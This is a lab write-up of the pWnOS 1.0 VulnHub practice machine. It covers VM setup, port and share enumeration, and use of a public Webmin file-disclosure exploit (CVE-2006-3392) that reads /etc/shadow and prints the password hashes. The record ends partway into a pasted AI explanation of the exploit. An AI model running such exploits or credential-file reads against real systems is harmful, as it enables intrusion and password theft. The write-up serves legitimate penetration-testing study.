### [VulnHub - Machine Information Page](https://www.vulnhub.com/entry/pwnos-10,33/)

### [YouTube - Tutorial](https://www.youtube.com/watch?v=mu2wrrSGFGA)


---

- **Name**: pWnOS: 1.0
- **Date release**: 27 Jun 2008
- **Author**: [pWnOS](https://www.vulnhub.com/author/pwnos,6/)
- **Series**: [pWnOS](https://www.vulnhub.com/series/pwnos,3/)
- **Web page**: [http://forums.hackingdojo.com/viewtopic.php?f=21&t=149](http://forums.hackingdojo.com/viewtopic.php?f=21&t=149)

### Download

Please remember that VulnHub is a free community resource so we are unable to check the machines that are provided to us. Before you download, please read our FAQs sections dealing with the dangers of running unknown VMs and our suggestions for “protecting yourself and your network. If you understand the risks, please download!

- **pWnOS_v1.0.zip** (Size: 432 MB)
- **Download**: [http://pwnos.com/files/pWnOS_v1.0.zip](http://pwnos.com/files/pWnOS_v1.0.zip)
- **Download (Mirror)**: [https://download.vulnhub.com/pwnos/pWnOS_v1.0.zip](https://download.vulnhub.com/pwnos/pWnOS_v1.0.zip)

### Description

Some of you may have noticed this new pWnOS forum section. I created pWnOS as a virtual machine and Grendel was nice enough to let me post about it here. Here's a bit of information on pWnOS.

It's a linux virtual machine intentionally configured with exploitable services to provide you with a path to r00t. :) Currently, the virtual machine NIC is configured in bridged networking, so it will obtain a normal IP address on the network you are connected to. You can easily change this to NAT or Host Only if you desire. A quick ping sweep will show the IP address of the virtual machine.

Sorry...no scenario/storyline with this one. I wasn't really planning to release it like this, so maybe for version 2.0 I'll be more creative. :) I'm anxious to get feedback so let me know how it goes or if you have questions. Thanks and good luck!

Source: [http://forums.hackingdojo.com/viewtopic.php?f=21&t=149](http://forums.hackingdojo.com/viewtopic.php?f=21&t=149)

## Readme

Thanks for trying pWnOS 1.0. A few things to note before getting started. pWnOS is made using VMware Workstation and can be started by downloading VMware Server or Vmware player...both of which are free! Or VMware Workstation (Windows) or VMware Fusion (OS X), which are not free.

1. If Vmware asks whether you copied or moved this virtual machine on first boot, click MOVED! Otherwise the network settings could get messed up.
2. The virtual machine is currently setup to use bridged networking, but you may want to change this to NAT or Host Only...depending on your preferences.
3. All necessary tools/exploits/whatever can be found at milw0rm.com.
4. There are multiple paths to get shell access. I created a n00b path and a more advanced path. See if you can get both of them!

I would rate the difficulty of pWnOS approximately the same as De-Ice's level 2 disk...maybe a bit more difficult. See http://www.de-ice.net for information on the De-Ice penetration testing disks.

I hope you enjoy it! If you have any questions or feedback, email me at bond00(at)gmail.com

### File Information

- **Filename**: pWnOS_v1.0.zip
- **File size**: 432 MB
- **MD5**: 2C9DE33D0AA852F3B2E2E7D90C5F5C0E
- **SHA1**: 7924910A3E5C9A69053484D998BD6729AFF3757B


---

# Installation 🔌💻🖥️🛜💾🔌

On this particular machine, this target is made for VMware instead of VirtualBox, you will get trouble with the IP address if using VirtualBox.



Now you might ask yourself, are we now going to also install Kali Linux on VMware?? For crying out loud! 😩😭😢

Thank God this is not necessary! 🙏🙏😀😃😄😁

First we click on "**Edit virtual machine settings**"


At **device** we look at **Network adapter**, to the right at **Network connection** make a checkmark on the checkbox **Replicate physical network connection state**. 



Then **Configure Adapters** check-off all the network adapters except the one from VirtualBox



This setting will bridge the _**VMware virtual machine’s network connection**_ through the VirtualBox **_host-only adapter_**.

By following these steps, you ensure that both your **_Kali Linux machine (in VirtualBox)_** and the **_pwnOS machine (in VMware)_** are connected to the same host-only network, enabling them to communicate with each other.


---
---

# Enumeration

## netdiscover & nmap


```bash
# sudo netdiscover -i eth1
# sudo netdiscover -i eth1 -r 192.168.56.0/24
3 Captured ARP Req/Rep packets, from 3 hosts.   Total size: 180                           
 _____________________________________________________________________________
   IP            At MAC Address     Count     Len  MAC Vendor / Hostname      
 -----------------------------------------------------------------------------
 192.168.56.1    0a:00:27:00:00:0a      1      60  Unknown vendor                          
 192.168.56.2    08:00:27:ae:ec:fa      1      60  PCS Systemtechnik GmbH                  
 192.168.56.39   00:0c:29:5e:18:c9      1      60  VMware, Inc.


# nmap -sC -sV 192.168.56.39 
# nmap -sC -sV 192.168.56.39 -p- 
# " -sC " is used to perform a script scan using the default set of scripts
# while "-sV" enables version detection, allowing us to identify which versions are running on which port.
# -p- check ALL ports not just the most common
┌──(kali㉿kali)-[~]
└─$ nmap -sC -sV 192.168.56.39 -p- 
Starting Nmap 7.95 ( https://nmap.org ) at 2026-01-27 19:46 CET
Nmap scan report for 192.168.56.39
Host is up (0.0013s latency).
Not shown: 65530 closed tcp ports (reset)
PORT      STATE SERVICE     VERSION
22/tcp    open  ssh         OpenSSH 4.6p1 Debian 5build1 (protocol 2.0)
| ssh-hostkey: 
|   1024 e4:46:40:bf:e6:29:ac:c6:00:e2:b2:a3:e1:50:90:3c (DSA)
|_  2048 10:cc:35:45:8e:f2:7a:a1:cc:db:a0:e8:bf:c7:73:3d (RSA)
80/tcp    open  http        Apache httpd 2.2.4 ((Ubuntu) PHP/5.2.3-1ubuntu6)
|_http-server-header: Apache/2.2.4 (Ubuntu) PHP/5.2.3-1ubuntu6
|_http-title: Site doesn't have a title (text/html).
139/tcp   open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: MSHOME)
445/tcp   open  netbios-ssn Samba smbd 3.0.26a (workgroup: MSHOME)
10000/tcp open  http        MiniServ 0.01 (Webmin httpd)
|_http-title: Site doesn't have a title (text/html; Charset=iso-8859-1).
MAC Address: 00:0C:29:5E:18:C9 (VMware)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_nbstat: NetBIOS name: UBUNTUVM, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb-os-discovery: 
|   OS: Unix (Samba 3.0.26a)
|   Computer name: ubuntuvm
|   NetBIOS computer name: 
|   Domain name: nsdlab
|   FQDN: ubuntuvm.NSDLAB
|_  System time: 2026-01-27T12:47:17-06:00
|_smb2-time: Protocol negotiation failed (SMB2)
|_clock-skew: mean: 3h00m06s, deviation: 4h14m33s, median: 6s

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 56.35 seconds

```

We can confirm that the following ports are available
- 22/TCP - SSH - OpenSSH 4.6p1 Debian 5build1 (protocol 2.0)
- 80/TCP - HTTP - Apache httpd 2.2.4 ((Ubuntu) PHP/5.2.3-1ubuntu6)
- 139/TCP - netbios-ssn - Samba smbd 3.X - 4.X (workgroup: MSHOME)
- 445/TCP - netbios-ssn - Samba smbd 3.0.26a (workgroup: MSHOME)
- 10000/TCP - HTTP - MiniServ 0.01 (Webmin httpd)


Let's finally check that website on port 80!



If we click next, we get a form-page where we can add our name and choose our skill level from a selection of radio buttons. no matter what you choose, you will get the same results.




The source code is not really interesting, So I guess we can confirm, that this page is just a red herring, to waste our time. 🐟🐠🐡♓🎣

## SMBClient

Among the open ports, Ports 139 and 445/TCP are used by Samba , a file-sharing protocol for Windows networks. These ports facilitate file sharing between Windows machines and the target device. In some cases, developers might accidentally leave a share unprotected, allowing unauthorized access.l

```bash
# smbclient -L 192.168.56.39
# Just hit Enter without typing a password
┌──(kali㉿kali)-[~]
└─$ smbclient -L 192.168.56.39
Password for [WORKGROUP\kali]:
Anonymous login successful

        Sharename       Type      Comment
        ---------       ----      -------
        home            Disk      Home Directory for vmware User
        print$          Disk      Printer Drivers
        IPC$            IPC       IPC Service (ubuntuvm)
Reconnecting with SMB1 for workgroup listing.
Anonymous login successful

        Server               Comment
        ---------            -------

        Workgroup            Master
        ---------            -------
        MSHOME               UBUNTUVM

# smbclient //192.168.95.39/home
┌──(kali㉿kali)-[~]
└─$ smbclient //192.168.56.39/home
Password for [WORKGROUP\kali]:
Anonymous login successful
tree connect failed: NT_STATUS_ACCESS_DENIED
                                                                                                                                                   
┌──(kali㉿kali)-[~]
└─$ smbclient //192.168.56.39/print$
Password for [WORKGROUP\kali]:
Anonymous login successful
tree connect failed: NT_STATUS_ACCESS_DENIED
                                                                                                                                                   
┌──(kali㉿kali)-[~]
└─$ smbclient //192.168.56.39/IPC$  
Password for [WORKGROUP\kali]:
Anonymous login successful
Try "help" to get a list of possible commands.
smb: \> help
?              allinfo        altname        archive        backup         
blocksize      cancel         case_sensitive cd             chmod          
chown          close          del            deltree        dir            
du             echo           exit           get            getfacl        
geteas         hardlink       help           history        iosize         
lcd            link           lock           lowercase      ls             
l              mask           md             mget           mkdir          
mkfifo         more           mput           newer          notify         
open           posix          posix_encrypt  posix_open     posix_mkdir    
posix_rmdir    posix_unlink   posix_whoami   print          prompt         
put            pwd            q              queue          quit           
readlink       rd             recurse        reget          rename         
reput          rm             rmdir          showacls       setea          
setmode        scopy          stat           symlink        tar            
tarmode        timeout        translate      unlock         volume         
vuid           wdel           logon          listconnect    showconnect    
tcon           tdis           tid            utimes         logoff         
..             !              
smb: \> ls
NT_STATUS_NETWORK_ACCESS_DENIED listing \*
```



Basically no access. 😞

The system is highly secure and does not permit brute-force attacks.

There is only one port left for us to explore.

## Enumerating the MiniServ WebMin Httpd server

**_Port 10000_** is used by MiniServ, a **_lightweight web server_** using HTTP. 

This is how the page looks like



We can use the tool nmap again, to find vulnerabilities on this particular site.

```sh
# nmap -p 10000 --script http-vuln-* 192.168.56.39
┌──(kali㉿kali)-[~]
└─$ nmap -p 10000 --script http-vuln-* 192.168.56.39
Starting Nmap 7.95 ( https://nmap.org ) at 2026-01-27 21:18 CET
Nmap scan report for 192.168.56.39
Host is up (0.0017s latency).

PORT      STATE SERVICE
10000/tcp open  snet-sensor-mgmt
| http-vuln-cve2006-3392: 
|   VULNERABLE:
|   Webmin File Disclosure
|     State: VULNERABLE (Exploitable)
|     IDs:  CVE:CVE-2006-3392
|       Webmin before 1.290 and Usermin before 1.220 calls the simplify_path function before decoding HTML.
|       This allows arbitrary files to be read, without requiring authentication, using "..%01" sequences
|       to bypass the removal of "../" directory traversal sequences.
|       
|     Disclosure date: 2006-06-29
|     References:
|       http://www.rapid7.com/db/modules/auxiliary/admin/webmin/file_disclosure
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2006-3392
|_      http://www.exploit-db.com/exploits/1997/
MAC Address: 00:0C:29:5E:18:C9 (VMware)

Nmap done: 1 IP address (1 host up) scanned in 0.41 seconds

```



## http-vuln-cve2006-3392
### _"Webmin before 1.290 and Usermin before 1.220 calls the simplify_path function before decoding HTML. This allows arbitrary files to be read, without requiring authentication"_


## GoBuster

```bash
# gobuster dir -u http://192.168.56.39/ -w /usr/share/wordlists/dirb/common.txt  
┌──(kali㉿kali)-[~]
└─$ gobuster dir -u http://192.168.56.39/ -w /usr/share/wordlists/dirb/common.txt
===============================================================
Gobuster v3.8
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.56.39/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.8
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.hta                 (Status: 403) [Size: 303]
/.htaccess            (Status: 403) [Size: 308]
/.htpasswd            (Status: 403) [Size: 308]
/cgi-bin/             (Status: 403) [Size: 307]
/index                (Status: 200) [Size: 295]
/index.php            (Status: 200) [Size: 295]
/index1               (Status: 200) [Size: 1104]
/index2               (Status: 200) [Size: 156]
/php                  (Status: 301) [Size: 330] [--> http://192.168.56.39/php/]
/server-status        (Status: 403) [Size: 312]
Progress: 4613 / 4613 (100.00%)
===============================================================
Finished
===============================================================

# gobuster dir -u http://192.168.56.39/ -w /usr/share/wordlists/dirb/common.txt -x txt,php,html
┌──(kali㉿kali)-[~]
└─$ gobuster dir -u http://192.168.56.39/ -w /usr/share/wordlists/dirb/common.txt -x txt,php,html
===============================================================
Gobuster v3.8
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.56.39/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.8
[+] Extensions:              php,html,txt
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.hta                 (Status: 403) [Size: 303]
/.hta.txt             (Status: 403) [Size: 307]
/.hta.html            (Status: 403) [Size: 308]
/.hta.php             (Status: 403) [Size: 307]
/.htpasswd.php        (Status: 403) [Size: 312]
/.htpasswd.txt        (Status: 403) [Size: 312]
/.htaccess.php        (Status: 403) [Size: 312]
/.htpasswd            (Status: 403) [Size: 308]
/.htaccess.txt        (Status: 403) [Size: 312]
/.htaccess.html       (Status: 403) [Size: 313]
/.htaccess            (Status: 403) [Size: 308]
/.htpasswd.html       (Status: 403) [Size: 313]
/cgi-bin/             (Status: 403) [Size: 307]
/cgi-bin/.html        (Status: 403) [Size: 312]
/index                (Status: 200) [Size: 295]
/index.php            (Status: 200) [Size: 295]
/index.php            (Status: 200) [Size: 295]
/index1               (Status: 200) [Size: 1104]
/index1.php           (Status: 200) [Size: 1104]
/index2.php           (Status: 200) [Size: 156]
/index2               (Status: 200) [Size: 156]
/php                  (Status: 301) [Size: 330] [--> http://192.168.56.39/php/]
/server-status        (Status: 403) [Size: 312]
Progress: 18452 / 18452 (100.00%)
===============================================================
Finished
===============================================================
```


---
---

# Exploitation

You can click on the link from the terminal: https://www.exploit-db.com/exploits/1997
This will redirect you to the page where you can download the exploit. the file name is *1997.php*

```sh
# We have to add IP address, Port number, protocol type (http/https) and the directory we want to get access to.
# php 1997.php 192.168.56.39 10000 http /etc/shadow
┌──(kali㉿kali)-[~/Downloads]
└─$ php 1997.php 192.168.56.39 10000 http /etc/shadow
Attacking 192.168.56.39
---------------------------------
PHP Fatal error:  Uncaught Error: Call to undefined function curl_init() in /home/kali/Downloads/1997.php:30
Stack trace:
#0 {main}
  thrown in /home/kali/Downloads/1997.php on line 30

# We have to install PHP Curl... Then try again
# sudo apt install php-curl
┌──(kali㉿kali)-[~/Downloads]
└─$ sudo apt install php-curl                                           
[sudo] password for kali: 
Installing:                     
  php-curl

Installing dependencies:
  php8.4-curl

Summary:
  Upgrading: 0, Installing: 2, Removing: 0, Not Upgrading: 135
  Download size: 43.7 kB
  Space needed: 174 kB / 27.5 GB available

Continue? [Y/n] y
Get:1 http://http.kali.org/kali kali-rolling/main amd64 php8.4-curl amd64 8.4.11-1+b1 [39.8 kB]
Get:2 http://http.kali.org/kali kali-rolling/main amd64 php-curl all 2:8.4+96 [3960 B]
Fetched 43.7 kB in 0s (88.6 kB/s)  
Selecting previously unselected package php8.4-curl.
(Reading database ... 657678 files and directories currently installed.)
Preparing to unpack .../php8.4-curl_8.4.11-1+b1_amd64.deb ...
Unpacking php8.4-curl (8.4.11-1+b1) ...
Selecting previously unselected package php-curl.
Preparing to unpack .../php-curl_2%3a8.4+96_all.deb ...
Unpacking php-curl (2:8.4+96) ...
Setting up php8.4-curl (8.4.11-1+b1) ...
Creating config file /etc/php/8.4/mods-available/curl.ini with new version
Setting up php-curl (2:8.4+96) ...
Processing triggers for libapache2-mod-php8.4 (8.4.11-1+b1) ...
Processing triggers for php8.4-cli (8.4.11-1+b1) ...
                                                                                                                                                                  
# Let's try again!
┌──(kali㉿kali)-[~/Downloads]
└─$ php 1997.php 192.168.56.39 10000 http /etc/shadow
Attacking 192.168.56.39
---------------------------------
root:$1$LKrO9Q3N$EBgJhPZFHiKXtK0QRqeSm/:14041:0:99999:7:::
daemon:*:14040:0:99999:7:::
bin:*:14040:0:99999:7:::
sys:*:14040:0:99999:7:::
sync:*:14040:0:99999:7:::
games:*:14040:0:99999:7:::
man:*:14040:0:99999:7:::
lp:*:14040:0:99999:7:::
mail:*:14040:0:99999:7:::
news:*:14040:0:99999:7:::
uucp:*:14040:0:99999:7:::
proxy:*:14040:0:99999:7:::
www-data:*:14040:0:99999:7:::
backup:*:14040:0:99999:7:::
list:*:14040:0:99999:7:::
irc:*:14040:0:99999:7:::
gnats:*:14040:0:99999:7:::
nobody:*:14040:0:99999:7:::
dhcp:!:14040:0:99999:7:::
syslog:!:14040:0:99999:7:::
klog:!:14040:0:99999:7:::
mysql:!:14040:0:99999:7:::
sshd:!:14040:0:99999:7:::
vmware:$1$7nwi9F/D$AkdCcO2UfsCOM0IC8BYBb/:14042:0:99999:7:::
obama:$1$hvDHcCfx$pj78hUduionhij9q9JrtA0:14041:0:99999:7:::
osama:$1$Kqiv9qBp$eJg2uGCrOHoXGq0h5ehwe.:14041:0:99999:7:::
yomama:$1$tI4FJ.kP$wgDmweY9SAzJZYqW76oDA.:14041:0:99999:7:::
---------------------------------
Coded by joffer , http://securitydot.net

# milw0rm.com [2006-07-09]                                                                                                                                                                  
┌──(kali㉿kali)-[~/Downloads]
└─$ 
```




### Before we go any further I want to share the respond from AI about our exploit, how it actually works

---

Nice, vuln machine #14 is where things really start to click 👌
This is a classic exploit, and it is actually a great one to study because it shows how small parsing bugs turn into full file disclosure.

I will walk through it in layers, from high-level to byte-level, and then tie it back to why it works in Webmin/Usermin.

---

## 1. What vulnerability this exploit abuses

**Webmin / Usermin Arbitrary File Disclosure (pre 1.290)**

In vulnerable versions, Webmin had:

* An **unauthenticated endpoint** under `/unauthenticated/`
* Broken path normalization
* Incorrect handling of **URL-encoded control characters**

Result:
